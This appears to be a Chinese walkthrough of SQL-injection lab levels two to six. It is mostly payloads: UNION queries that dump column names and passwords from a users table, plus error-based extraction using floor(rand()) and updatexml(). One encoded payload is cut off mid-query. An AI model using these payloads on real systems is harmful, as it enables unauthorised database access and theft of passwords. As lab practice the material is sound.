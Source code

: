 ```
id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') --+
```
![](https://pic.superbed.cn/item/5dcacb248e0e2e3ee9ba661c.jpg)

```
id=-1' union select 1,2,(select group_concat(password) from users) --+
```
![](https://pic.superbed.cn/item/5dcacbb18e0e2e3ee9ba7a0c.jpg)

- 第二关

```
id=1 and 1=2
```

- 第三关

```
id=1') and 1=2 
```

- 第四关（联合结束）

```
id=1") and 1=2 --+
```

- 第五关（报错开始）

```
id=1' and (select 1 from (select count(*),concat((user()),floor (rand(0)*2))x from information_schema.tables group by x)a) --+

and(select%201%20from(select%20count(*),concat((select%20(select%20(SELECT%20distinct%20group_concat(0x7e,schema_name,0x7e)%20FROM%20information_schema.schemata%20LIMIT%200,1))%20from%20information_schema.tables%20limit%200,

```
![](https://pic.superbed.cn/item/5dcc06c68e0e2e3ee9ef1fd4.jpg)

![](https://pic.superbed.cn/item/5dcd4a248e0e2e3ee91b878a.jpg)

![](https://pic.superbed.cn/item/5dcd4ab38e0e2e3ee91bab9f.jpg)

![](https://pic.superbed.cn/item/5dcd4b288e0e2e3ee91bc42f.jpg)

![](https://pic.superbed.cn/item/5dcd4b658e0e2e3ee91bcd68.jpg)


- 第六关

```
id=1" and updatexml(1,concat('~',user(),'~'),1) --+ 
```
